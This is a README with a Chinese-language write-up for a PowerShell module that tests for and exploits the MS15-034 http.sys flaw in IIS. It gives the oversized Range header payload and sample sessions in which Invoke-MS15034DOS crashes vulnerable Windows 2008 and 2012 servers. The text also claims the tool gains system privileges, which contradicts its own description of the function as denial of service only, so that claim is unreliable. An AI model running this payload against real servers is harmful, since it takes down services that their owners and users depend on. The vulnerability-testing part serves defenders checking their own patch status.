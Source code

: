 # MS15034
PowerShell module for the exploitation and testing 

http://www.hx99.net/Article/Tech/201504/36652.html

https://www.vulbox.com/lab/

http://www.freebuf.com/articles/system/64185.html

星期四一早我的推特就被微软最新的ms15-034漏洞公告刷屏了.

ms15-034漏洞出在http.sys文件中.这个文件是iis的一个重要组件,功能和特性对windows来说意义重大.微软公告说这个漏洞是一个可以执行远程代码的漏洞,但是截至目前为止已发布的poc仅仅只能dos掉系统,虽然有人声称出售可以用于远程攻击的poc但是真实性值得怀疑.

过去这几出现了各种各样的poc,甚至用于攻击ms15-034的metasploit模块也出现了.如果你用类unix操作系统或者电脑里安装了诸如perlpython的脚本语言,你都可以获得相应版本的poc代码.只是,我觉得这些代码对windows管理员来说还是不够友好,我倾向于写一个powershell版本的poc.

chris campbell写的ps代码可以检测系统是否是易受攻击的,但是某些情况下这个ps代码的执行不够理想.

chris的代码有三个问题,1是他没有考虑到http 404错误的情况,第二个是不会收集http 400错误,第三个是代码有前后不匹配的问题.

我觉得仅仅用powershell来验证一个系统是否受攻击是不够的,最好是能更进一步拿下系统权限.

开始之前我们首先要明确一个问题,请不要使用.net的Webrequest类来生成http header的值,而应该用更底层的TCPClient类来实现.

我写的这个漏洞利用程序受到了Metasploit ms15034漏洞模块的影响.你可以在github上面找到这段代码 https://github.com/poshsecurity/MS15034. 其中最重要的两个函数是test-ms15-34和invoke-ms15034dos 前者是测试用的,后者执行对指定系统的dos攻击.

测试:

你需要给漏洞利用程序指定如下三个参数:

1. windows2008

2. windows2012

3. -serverPath

前两个参数代表被攻击的机器,它们会访问http://computer/welcom.png 和 http://computer/iis-85.png. 第三个参数是可选的,你可以用下面的方式使用这个参数:

1. /index.html

2. /companylogo.png

3. images/logo.jpg

让我们来看看具体的例子:

1.测试一台装了windows2008的服务器是否有漏洞。
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -Windows2008
This server is vulnerable to MS 15-034
PS C:\tools>

2. 测试一台装了windows2012的服务器是否有漏洞.
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.2 -Windows2012
This server is vulnerable to MS 15-034
PS C:\tools>

3. 测试显示服务器不存在漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.4 -Windows2012
This server is not vulnerable to MS 15-034
PS C:\tools>

4.使用自定义路径来测试服务器是否有漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -ServerPath "/welcome.png"
This server is vulnerable to MS 15-034
PS C:\tools>

5. 故意使用错误的系统版本来测试服务器是否有漏洞
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -Windows2012
Test-MS15034 : The provided path has not been found, check you have selected the right operating system, or specified
a valid file in -ServerPath
At line:1 char:1
+ Test-MS15034 -Computer 192.168.1.3 -Windows2012
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Test-MS15034
PS C:\tools>

6. 用自定义路径来检测一台服务器是否有漏洞（路径不存在）
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Test-MS15034 -Computer 192.168.1.3 -ServerPath "/thisdoesnotexist.png"
Test-MS15034 : The provided path has not been found, check you have selected the right operating system, or specified
a valid file in -ServerPath
At line:1 char:1
+ Test-MS15034 -Computer 192.168.1.3 -ServerPath "/thisdoesnotexist.png"
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Test-MS15034
PS C:\tools>

CMDLet用指定参数来连接URL,并且连接的时候指定http header的范围是 bytes=0-18446744073709551615.如果服务器响应式http 416那么就说明此服务器是受此漏洞影响的.

接下来我们来干一点邪恶的事情,通过这个漏洞直接拿到系统的权限. invoke-ms15034dos这个函数会帮我们实现这个目的.这个函数需要的参数和上面差不多.它们两者的区别在于后者用先测试被攻击的服务器是否是有漏洞的.有漏洞它才会执行攻击.否则它仅仅是执行dos攻击.dos攻击的 http header 需要被指定为: Range: bytes=0-18446744073709551615.

1. 对windwos2012r2服务器执行拒绝服务攻击
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.2 -Windows2012
The server is vulnerable, performing Denial Of Service
Looks like the DOS was successful
PS C:\tools>

2. 对windwos2008r2服务器执行拒绝服务攻击
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.3 -Windows2008
The server is vulnerable, performing Denial Of Service
Looks like the DOS was successful
PS C:\tools>

3. 下面的测试是来看看 如果你攻击一台打了补丁的服务器会出现的反应.
PS C:\tools> Import-Module .\MS15034.psm1
PS C:\tools> Invoke-MS15034DOS -Computer 192.168.1.4 -Windows2012
Test-MS15034 reported the server not as vulnerable, so not performing Denial Of Service
PS C:\tools>

最后需要提醒的是,我的攻击代码只支持http,对https未做考虑.
